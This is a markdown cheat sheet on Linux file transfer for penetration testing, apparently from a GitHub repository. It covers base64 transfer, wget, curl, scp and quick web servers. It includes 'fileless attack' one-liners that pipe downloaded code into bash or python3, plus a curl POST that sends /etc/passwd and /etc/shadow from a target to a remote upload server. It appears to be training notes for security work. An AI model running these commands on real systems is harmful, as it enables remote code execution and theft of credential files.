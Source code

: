 # File Transfers
## @Author : M3tr1c_r00t
### Linux File Transfer Methods
#### Download 
#### Base64 encoding/decoding
```
md5sum FILE
cat FILE|base64 -w 0;echo
```
on target;
```
echo -n 'BASE64_CODE' |base64 -d > FILE_NAME
```
#### Wget
```
wget http://URL -O FILE_NAME
```
#### Curl
```
curl http://URL -o FILE_NAME
```

### Fileless Attack
#### curl
```
curl http://file | bash
```

#### wget 
```
wget -qO http://file | python3
```

#### Download with Bash(/dev/tcp)
![image](https://user-images.githubusercontent.com/99975622/222586124-cb4b01ed-57d0-4016-a599-fb7118e0071c.png)

### SSH Downloads
we are going to use scp(secure copy) for file transfer.
__Enabling ssh server__;
```
sudo systemctl enable ssh
```
 __Starting ssh server__;
 ```
 sudo systemctl start ssh
 ```
__Checking for ssh Listening port__;
```
netstat -lnpt
```
__Downloading files using scp__;
```
scp user@IP:/FILE .
# you will be prompted for a password.
```

### Web Upload
we can use upload server module to work with https.

__Installation...__;
```
python3 -m pip install install --user uploadserver
```

__Creating a Self Signed Certificate__;
```
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
note that the web-server shouldn't host the certificate. We recommend creating a new directory to host the file.

__Running the server__;
```
python3 -m uploadserver PORT --server-certificate /CERT
```

__uploading from the target machine__;
```
 curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
### Starting a python web server
#### Python3
```
python3 -m http.server 80
```
#### Python2
```
python2 -m SimpleHTTPServer
```

### Starting a php web server
```
php -S 0.0.0.0:8000
```
### Starting a ruby web server
```
ruby -run -ehttpd . -p8000
```

After starting all the web-servers, we can download the file on the target using wget.
```
wget http://IP:PORT/FILE
```

### SCP Upload
```
scp /etc/passwd user@IP:/NEW_FILE
```

## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_root
<br>@ instagram: https://instagram.com/m3tr1c_r00t/
   
